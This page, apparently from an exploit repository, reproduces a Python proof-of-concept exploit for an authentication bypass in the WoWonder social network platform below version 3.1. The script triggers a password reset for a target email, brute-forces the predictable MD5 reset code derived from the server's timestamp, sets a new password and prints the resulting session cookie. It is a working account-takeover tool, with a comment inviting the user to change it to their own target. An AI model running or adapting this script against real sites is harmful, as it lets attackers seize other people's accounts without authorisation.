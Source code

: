 <languages />

Versión afectada
----------------

Version: \< 3.1

EXP
---

    # Exploit Title: WoWonder Social Network Platform 3.1 - Authentication Bypass
    # Date: 11.06.2021
    # Exploit Author: securityforeveryone.com
    # Researchers : Security For Everyone Team - https://securityforeveryone.com
    # Vendor Homepage: https://www.wowonder.com/
    # Software Link: https://codecanyon.net/item/wowonder-the-ultimate-php-social-network-platform/13785302
    # Version: < 3.1
    # Tested on: Linux/Windows

    '''
    DESCRIPTION

    In WoWonder < 3.1, remote attackers can take over any account due to the weak cryptographic algorithm in recover.php. The code parameter is easily predicted from the time of day.
    The vulnerability is found the "code" parameter in password reset link. The password reset code can be estimated by combining the password reset link time and the random value generated between 111 and 999.
    if an attacker exploits this vulnerability, attacker may access all accounts in WoWonder application.

    ABOUT SECURITY FOR EVERYONE TEAM

    We are a team that has been working on cyber security in the industry for a long time.
    In 2020, we created securityforeveyone.com where everyone can test their website security and get help to fix their vulnerabilities.
    We have many free tools that you can use here: https://securityforeveryone.com/tools/free-security-tools
    '''

    import requests
    import email.utils as eut
    import calendar, time;
    import hashlib, re;

    url = "http://wowonderlab:80/wowonder/" #change this with your target
    myheaders = {"X-Requested-With": "XMLHttpRequest", "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8", "Connection": "close"}
    recoverdata = {"recoveremail": "wowondertest@securityforeveryone.com"}  #change this email with your registered wowonder email address
    req = requests.post(url+"requests.php?f=recover", headers=myheaders, data=recoverdata)
    b = eut.parsedate(req.headers["Date"])
    respepoch = calendar.timegm(time.strptime("{0}-{1}-{2} {3}:{4}:{5}".format(b[0],b[1],b[2],b[3],b[4],b[5]), '%Y-%m-%d %H:%M:%S'))

    for token in range(111,1000):
        str2hash = "{0}{1}".format(token,respepoch)
        email_code = hashlib.md5(str2hash.encode()).hexdigest()

        req_reset = requests.get(url+"index.php?link1=reset-password&code=1_{0}".format(email_code))
        if len(re.findall("New password",req_reset.text)) == 1:
            print(email_code)
            resetdata = {"password": "10711071", "id": "1_"+email_code}
            reqtoken = requests.post(url+"requests.php?f=reset_password", headers=myheaders, data=resetdata)
            print(reqtoken.headers['Set-Cookie'])
            break